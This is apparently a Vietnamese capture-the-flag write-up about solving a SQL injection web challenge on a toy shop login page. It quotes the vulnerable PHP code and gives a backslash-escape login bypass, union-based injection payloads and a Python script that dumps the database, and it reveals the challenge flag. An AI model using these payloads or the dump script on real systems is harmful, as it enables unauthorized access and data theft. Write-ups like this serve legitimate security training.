





# [Chung Kết] Web: Cửa hàng đồ chơi Quận 4

## Cái gì đếy?



Đây là một bài SQLi khá là cơ bản nhưng mà không hiểu vì lí do gì mình lại stuck khá lâu ở bài này. Có lẽ mình đã già .__.

## Phân tếch

Khi mình vừa bấm vào link thì sẽ có một cái trang login spot ra trông như thế lày:



Các bạn để ý thì sẽ thấy có một cái button `Xem mã nguồn` sẽ dẫn mình đến source code của phần login.

```php
<?php
    if (isset($_GET['source'])) { 
        highlight_file(__FILE__); 
        die(); 
    }
    include("config.php");
    session_start();
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        try {
            // Vậy chắc an toàn rồi!
            if (preg_match("/'/", $_POST['username']) || preg_match("/'/", $_POST['password']))
                die("Hack detected 😵😵😵");

            $sql = "select username from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
            $sth = $conn->query($sql);
            $sth->setFetchMode(PDO::FETCH_ASSOC);
            if ($sth->rowCount() > 0){
                $row = $sth->fetch();
                {
                    $_SESSION['username'] = $row['username'];
                    die(header("location: shopping.php"));
                }
            }
            else {
                $message = "Sai tên và mật khẩu rồi 😅";
            }
        } catch(PDOException $e) {
            $message =  "Ôi không, có gì đó sai sai. Hãy thử lại vào lúc khác nha 😅";
        }
    }
    if (isset($_SESSION['username']))
        die(header("location: shopping.php"));
?> 

```

Ở đây, mình đetéct được một đoạn vunerable code:

```php
if (preg_match("/'/", $_POST['username']) || preg_match("/'/", $_POST['password']))
                die("Hack detected 😵😵😵");

$sql = "select username from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
```

Trông có vẻ như `preg_match` chỉ filter dấu `'` thôi nên mọi chuyện khá ez xD.

## Solútion

### Bypass login fỏm

Quay lại đoạn check login phía bên trên, khi mình thử nhập tên là `admin` và mật khẩu là `12345` thì đoạn query sẽ trông như sau:

```php
select username from users where username='admin' and password='12345'
```

Vì không thể dùng `'` như bình thường được nên mình dùng dấu `\` để escape luôn dấu `'` ngay phần `username`, sau khi nhập tên là `\` thì đoạn query sẽ trở thành như thế này:

```php
select username from users where username='\' and password='12345'
```

Bạn thấy chứ? Đoạn mật khẩu `12345` mình vừa nhập đã chui ra khỏi string. Từ đó mình có đoạn injection như sau:

```sql
username: \
password: or username="admin"#
```

Bùm, không có flag :<


### Blind SQL Injection

Vì không thấy flag nên mình đoán là flag sẽ là password của `admin` hoặc là username/password của một user nào đó. Dự là như vậy nên mình dùng `Blind SQLi` để bruteforce password.

> Chả hiểu sao khúc này mình lại đi brutefỏce trong khi có thể dùng `union select` =))

Sau một hồi loay hoay thì mình nhận được password của `admin` chính là `admin` và vẫn chưa thấy flag :>


### Diging into database

Có vẻ như dòng chữ `Xin chào admin.` ở trên kia là nơi trả về kết quả của đoạn query hồi nãy. Thử query `version()` thì mình nhận được:

```sql
union select version()#
```



`8.0.26`? Là version của MySQL nên mình có thể dùng hàm `group_concat` được.
Mình quyết định tìm kiếm trong các table khác và nhận được một đống table có vẻ như không liên quan.

```sql
union select group_concat(table_name) from information_schema.tables#
```



Mình không biết dùng `sqlmap` nên chỉ thử được một vài table. Nhiều quá nên mình viết hẳn một cái script để dump luôn database. Sau khi dump xong mình vẫn không tìm thấy flag ?? :) ??


Và mình rơi vào betak.

### Database nào cơ????



Sau khi nhận được hint từ anh `nyancat` thì mình mới nhớ ra trong một hệ quản trị CSDL có nhiều database khác nhau và mình vừa tìm flag ở trong một cái database lạ hoắc .__. *sosadboiz...*

Oce let's try it.

```sql
union select database()#
```

Seem good ;3


Mình dùng luôn đoạn script lúc nãy để dump cái `myDB` này, mình đã quá mệt mỏi rồi :<<

```python
import requests
import json
import re

URL = 'http://shop.kid.cyberjutsu-lab.tech/login.php'

def query(cmd):
    r = requests.post(URL, data={
        'username': '\\',
        'password': cmd + '#'
    })
    try:
        return re.findall('Xin chào (.*).\\r', r.text)[0].split(',')
    except:
        return None

def list2dict(a):
    if a:
        return { x: None for x in a }
    else:
        return None

db = list2dict(query('union select group_concat(table_name) from information_schema.tables where table_schema=database()'))

for table_name in db.keys():
    print('querying:', table_name)
    columns = list2dict(query(f'union select group_concat(column_name) from information_schema.columns where table_name="{table_name}"'))
    db[table_name] = columns

    for column_name in columns:
        print(f'querying: {table_name}.{column_name}')
        values = query(f'union select group_concat({column_name}) from {table_name}')
        db[table_name][column_name] = values

with open('db.json', 'w') as w:
    w.write(json.dumps(db, indent=4, sort_keys=True))
```

Mở file `db.json` lên và mình tìm thấy flag... ***p r 0 v j p***

```json
{
    "authors": {
        "added": null,
        "birthdate": null,
        "email": null,
        "first_name": null,
        "id": null,
        "last_name": null
    },
    "flag_304ad593": {
        "flag_3e53dc": [
            "CTF{pleAs3_doNt_r3invent_th3_whe3L}"
        ]
    },
```

Flag:

```
CTF{pleAs3_doNt_r3invent_th3_whe3L}
```

That's end. Hy vọng bạn thích bài viết này của mình <3
